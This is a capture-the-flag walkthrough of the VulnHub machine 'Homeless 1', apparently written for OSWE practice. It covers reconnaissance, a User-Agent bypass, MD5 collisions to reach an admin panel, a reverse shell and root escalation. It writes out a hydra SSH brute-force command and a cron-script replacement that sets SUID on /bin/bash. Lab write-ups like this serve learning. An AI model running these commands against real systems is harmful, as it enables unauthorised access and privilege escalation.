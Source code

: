 # Homeless 1

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 19:13 WEST
Nmap scan report for 10.0.2.34
Host is up (0.00051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:2c:a5:57:c7:eb:82:11:4e:bc:10:45:2f:68:58:f0 (RSA)
|   256 4d:44:7b:95:ce:9f:86:e2:c8:b4:1c:53:85:0d:90:4a (ECDSA)
|_  256 a6:d8:0a:4a:ca:d9:77:13:14:a0:36:54:94:8e:6f:2a (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_Use Brain with Google
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Transitive by TEMPLATED
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
````

## Port 80
Static website with an interesting /robots.txt

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/060285d5-6feb-486f-9fc3-20b1e1ff455d)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/00da0d9b-706b-4978-a8c5-8903da308f54)

Hmm... let's carefully read the source code then

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/80bdce34-80a7-482b-ad45-155bc6b05542)


Cross-site scripting through the user agent? But it's reflected. Maybe I have to chain it with something else? Smuggling? Caching?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/67fcbc8b-d3a5-479e-8021-8975d8f14cfa)


Nothing... So I went and opened every single file on the webserver and found something a bit different. The favicon is kinda weird

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ad96ff53-eeb3-4dc1-80ab-e91f4638fe56)

I reverse image searched this and found some references to Cyberdog: `https://wiki.preterhuman.net/Cyberdog#Building-Custom-Documents`

Well, it's very CTFy, but changing the User-Agent to "Cyberdog" did the trick. Let's explore myuploader_priv

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e5d45eb2-8189-4fa3-8e83-6099e70287c4)


![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a6283049-6da5-4ad6-bf11-0f4446dc5993)

I quickly found the directory ``http://10.0.2.34/myuploader_priv/files/`` after a few seconds of directory busting. So we might have to upload a shell now.
Apparently I can only write around 7/8 characters before getting a "File too large" error message.

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a2243b64-4439-48bb-9917-b95962ff7dbd)

This was the shortest payload I could come up with, but It's harmless

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e82cdac3-aa28-43df-b25f-ad5a19e8115c)

Calling ls is useful tho

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/99be03fc-dc2d-484e-bfe8-3fb3951e4aea)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/db0dd563-1458-449a-befc-2068fbf8ac01)


That's another page, okay


## /d5fa314e8577e3a7b8534a014b4dcb221de823ad

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6a2cb219-996e-47fb-ac70-59b9d54f5eac)

See that 'need hint?' link? It downloads the source code. Time for a code review challenge!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f8761d51-b541-4bee-943e-40830fd5a4ba)

So, the md5sum of each of the fields must be the same, but the corresponding plaintext must not.
Magic hashes maybe? It can't be, it's a strict comparison

I turned to this guy's research and found his software. Lots of info in his repo and website, I won't go over it. It's a whole different topic
``https://github.com/cr-marcstevens/hashclash``

But anyway, I got the 3 different files with the same md5sum

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/66905a71-4a7d-4ed1-aa33-5d22c26f18e3)


The curl command was pretty tricky, but it finally worked

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/bf3d81f0-641a-4884-9719-20ae89893719)

I changed the cookie and browsed to /d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/539b0716-69ad-4a8d-acfa-84e4ba5eca37)


## Reverse Shell

A typical reverse shell payload worked wonders

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3f91c39b-2640-4c2b-b139-a3d2ac7e3168)


## Privilege Escalation

The privilege escalation probably has something to do with python

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f8d89b1a-cf5f-4c0b-b166-ac5069cfe982)


A few minutes of Pspy confirms this

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/79ac50d3-0e63-46c7-a8d4-4970f919cd6a)

Checking out this homeless.py file

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/09ac2e2f-4e1a-420a-bd75-4a81e8a1b179)

Can't do anything with this user. After a lot of time thinking, I remember the vulnhub page mentioned that we should use rock you and the password would start with 'sec'.
I used the following command the extract all the likely passwords from rock you
``cat rockyou.txt | grep "^sec" > /home/kali/Desktop/sec_rockyou``

Then ran hydra against the SSH service with the username 'downfall'

``hydra -l downfall -P sec_rockyou 10.0.2.34 ssh -t 10 -v -I``

And I finally found something

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ee737194-6a57-4077-8dec-fb8a4f6964ab)

Many ways to do this, but basically just edit the homeless.py file. I delted it and created a new one with the following contents

````
#!/bin/bash
chmod +s /bin/bash
````

Since the cron job is basically just running it ``./homeless.py``, it can be a bash script

Rooted! A bit CTFy, slightly frustrating, but still pretty cool

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3b9838b9-812f-4dec-ac56-b78c90cf307a)






